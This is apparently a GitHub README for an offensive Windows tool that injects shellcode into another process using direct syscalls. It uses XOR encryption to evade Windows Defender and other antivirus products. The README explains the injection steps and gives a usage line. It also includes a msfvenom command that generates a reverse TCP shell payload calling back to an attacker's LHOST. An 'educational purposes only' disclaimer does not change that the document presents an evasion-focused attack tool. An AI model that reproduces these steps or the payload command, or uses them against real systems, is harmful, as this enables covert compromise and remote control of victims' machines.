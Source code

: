 # He4vensG4te
Process Injection Using direct syscalls only 

FOR EDUCATIONAL PURPOSES ONLY THIS CODE IS NOT MEANT TO BE WEPONIZED OR USED FOR MALICIOUS INTENTS
# technique explanation

just like a normal process injection we first get a handle to the target process , allocate space inside it, write the shellcode then create a thread that executes the shellcode 

now in each of these steps we have to use a win api function not just risking that some of these functions might be hooked by edrs but also this patters is so knows and any behavioral analysis will flag the malware so i wroked on my own version of the hellsgate technique to directly call the syscall instead of using high level win api functions

# how does it work 

its pretty simple and i already explained it here https://github.com/B4shCr00k/DirectSysCalls 

so we just call the stub everytime we call an nt function and repeat until we complete all the steps 

i also included a simple xor encryption to bypass static avs like win defender 

# Usage 
`He4vensG4te.exe [path] [pid]`

-  path must use double back slashes '\\'
-  tested on windows 11 x64 latest build
-  bypasses windows defender and some other static avs  

# Important note 
for the shellcode it has to be a .bin file you can generate one using metasploit like this 
`msfvenom -p windows/x64/shell_reverse_tcp LHOST=x.x.x.x LPORT=x -f raw -o shellcode.bin`
the thing is u have to use a one stage payload cause i noticed that when i inject a multi stage meterpreter reverse shell the process crashes and the connection failed so the command above will generate a one stage simple reverse shell that actually works 

# ScreenShots
![Screenshot 2025-06-14 194559](https://github.com/user-attachments/assets/bd4e0cfb-6c2b-4695-a374-3c78be4fd893)
![Screenshot 2025-06-14 194936](https://github.com/user-attachments/assets/c880f7ab-04fe-4140-b667-fc1351fc49cb)

